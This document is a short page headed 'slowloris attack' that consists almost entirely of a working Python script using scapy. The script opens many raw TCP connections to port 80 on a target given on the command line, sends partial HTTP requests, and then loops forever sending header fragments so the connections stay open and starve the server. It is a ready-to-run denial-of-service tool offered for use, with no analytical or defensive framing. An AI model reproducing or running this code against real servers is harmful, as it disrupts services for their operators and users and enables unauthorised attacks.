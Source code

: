 
### slowloris attack

# gedit slowloris.py

```bash
#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))

```
